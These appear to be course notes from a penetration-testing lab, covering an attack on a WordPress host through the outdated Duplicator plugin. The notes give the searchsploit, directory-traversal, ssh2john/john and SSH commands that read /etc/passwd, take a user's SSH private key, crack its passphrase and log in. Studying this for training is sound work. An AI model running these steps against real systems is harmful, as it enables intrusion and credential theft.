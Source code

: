 Summary:
- Let's summarize what information we obtained about WEBSRV1 in this section. We learned that the target machine is an Ubuntu 22.04 system with two open ports: 22 and 80. A WordPress instance runs on port 80 with various active plugins. A plugin named Duplicator is outdated and a SearchSploit query provided us with two vulnerability entries matching the version.

# Attacking a Public Machine

### Initial Foothold

Scenario:
- We used SearchSploit to find exploits for Duplicator 1.3.26. SearchSploit provided two exploits for this version, one of which was an exploit for Metasploit. Let's use SearchSploit to examine the other displayed exploit by providing the ExploitDB ID from Listing 7 to **-x**.
		- `searchsploit -x 50420`
- Listing 9 shows the Python code to exploit the vulnerability tracked as CVE-2020-11738.1 Notice that the Python script sends a GET request to a URL and adds a filename prepended with "dot dot slash" expressions.
- Let's copy the Python script to the **/home/kali/beyond/websrv1** directory using SearchSploit's **-m** option with the ExploitDB ID.
		- `cd beyond/websrv1`
		- `searchsploit -m 50420`
- To use the script, we have to provide the URL of our target and the file we want to retrieve. Let's attempt to read and display the contents of **/etc/passwd** both to confirm that the target is indeed vulnerable and to obtain user account names of the system.
	- `python3 50420.py http://192.168.50.244 /etc/passwd`
- We successfully obtained the contents of **/etc/passwd** and identified two user accounts, *daniela* and *marcus*. Let's add them to **creds.txt**.
- As we have learned in the *Common Web Application Attacks* Module, there are several files we can attempt to retrieve via Directory Traversal in order to obtain access to a system. One of the most common methods is to retrieve an SSH private key configured with permissions that are too open.
- [Note]:
	- In this example, we'll attempt to retrieve an SSH private key with the name **id_rsa**. The name will differ depending on the specified type when creating an SSH private key with ssh-keygen.2 For example, when choosing ecdsa as the type, the resulting SSH private key is named **id_ecdsa** by default.
- Let's check for SSH private keys with the name **id_rsa** in the home directories of daniela and marcus.
	- `python3 50420.py http://192.168.50.244 /home/marcus/.ssh/id_rsa`
		- result -> fail
	- `python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa`
	-  Let's save the key in a file named **id_rsa** in the current directory.
- Next, let's attempt to leverage this key to access WEBSRV1 as daniela via SSH. To do so, we have to modify the file permissions as we have done several times in this course.
	- `chmod 600 id_rsa`
	- `ssh -i id_rsa daniela@192.168.50.244`
	- result -> requires passphrase
- Attempt to crack the passphrase using **ssh2john** and **john** with the **rockyou.txt** wordlist. After a few moments, the cracking attempt is successful as shown in the following listing
	- `ssh2john id_rsa > ssh.hash`
	- `john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash`
	- result -> tequieromucho -> success
- Attempt to access the system again via SSH by providing the passphrase
	- `ssh -i id_rsa daniela@192.168.50.244`
-  Add the cracked passphrase to the creds.txt file in the work environment directory
